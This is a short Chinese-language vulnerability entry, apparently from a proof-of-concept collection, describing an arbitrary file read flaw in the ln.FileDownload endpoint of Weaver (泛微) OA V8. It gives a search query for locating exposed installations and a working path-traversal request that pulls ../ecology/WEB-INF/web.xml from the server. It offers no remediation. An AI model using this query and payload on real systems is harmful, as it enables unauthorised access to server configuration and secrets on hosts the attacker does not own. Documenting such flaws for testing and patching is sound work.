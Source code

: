 # 泛微OA ln.FileDownload 任意文件读取漏洞

## 漏洞描述

泛微OA ln.FileDownload 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

```
泛微OA V8
```

## 网络测绘

```
app="泛微-协同办公OA"
```

## 漏洞复现

登陆页面

![image-20220520141045902](images/202205201410983.png)

验证POC

```
/weaver/ln.FileDownload?fpath=../ecology/WEB-INF/web.xml
```

![image-20220520141058500](images/202205201410567.png)